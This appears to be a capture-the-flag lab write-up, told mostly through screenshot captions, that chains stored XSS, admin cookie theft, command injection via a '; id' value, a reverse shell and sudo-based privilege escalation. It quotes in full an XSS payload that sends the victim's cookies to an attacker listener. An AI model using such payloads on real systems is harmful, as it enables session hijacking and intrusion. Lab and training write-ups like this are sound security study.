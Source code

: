 **ip of the machine :- 10.129.1.248**

![](attachment/dd889889e9fcefe28bb3cc0bda17fe6d.png)
machine is on!!!

![](attachment/fa630331d0d7439bf2a60868a759cd72.png)
Got two open ports!!!

![](attachment/72f68ed224acd924a2c405874b5cd2d1.png)
Got versions of both the ports...

**changed the ip :- 10.129.49.229**

![](attachment/316577c60839ad1ee4a3e96a53eb676b.png)
only one options. Let's click on it and explore it...

![](attachment/0a4826e251bf75a0ae9bb5c9d87190c0.png)
Got a form, let's try adding some random stuff...
![](attachment/1b1a18f1c73fddf907676077a872c507.png)Nothing Happened...

![](attachment/2a5c584ddac820caed3737c3f5395ab2.png)
Added some random xss payload to check for xss.

![](attachment/9b3ed16c5b3e3ebacd996727422a6338.png)
It detected a hacking attempt but gave headers which is unusual...

![](attachment/9a5085ba7f36e662400b056d21671cdd.png)So added xss payload in User-agent to see if web application is vulnerable to xss because it blocked a hacking attempt. So though of doing it in User-agent header.

![](attachment/069be638f7dc57eee6a13d2e2c295eec.png)
Stored XSS confirmed.

![](attachment/568b0db33cf6c3b253b0d7a151de56ab.png)
Added a payload to get a cookie...
![](attachment/e6a2c56009703753758ae7f124b18d0d.png)
Because got an unauthorized page, so maybe there will be someone to access it...

![](attachment/9a582eb1e05dbfff326731a73d30eebb.png)
So after adding the payload "<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>" got two cookies out of which one is ours, and one is admin's....

![](attachment/008d2eee3f6ba84aadf600c4a44c00b1.png)
Got admin's cookie.

![](attachment/9322ae062d5964c8f4b31f34ee31ed25.png)
So after adding the cookie got this in /dashboard web page...

![](attachment/24c8731a45e02f110c2b8d3c7cefdf0a.png)
Captured the request after clicking on the generate report button and saw date parameter being passed...

![](attachment/bc98df2cce0d55b18c1f01098b1be9e6.png)
So added "; id" to see if command injection is not and got a response...

![](attachment/8912083aee42a33b4d758879544b7370.png)
Well it is possible...

![](attachment/a12db167977fd6e99c097f508f0c0104.png)
Added the payload for revshell...

![](attachment/be8fd4aaa2d9a6d9fbdcf0e12316ef61.png)
Got rev shell by adding the payload...

![](attachment/c6ba6fe3b802d7411a746ad8233e5afd.png)
Found the user flag in user's home directory logged in as.

![](attachment/d963ed4e25ec37f2b082763648a4809a.png)
Didn't find any unusual SUID files...

![](attachment/42202889e7c254c58c6eeb52f3fb44df.png)
So saw that user can only run syscheck binary.

![](attachment/8a44bbe34dd7b89a59b36552db31fec1.png)
Saw the src. code of syscheck which is performing some system checks.....

![](attachment/8004c9777927168fd18becf75e6c25fd.png)
So in the src. code, it is interacting with a file in the same directory so created it in temp with bash shell and made it executable.

![](attachment/2c3770cf28d16dc6613edc6f55d94455.png)
Executed syscheck as root and got root flag...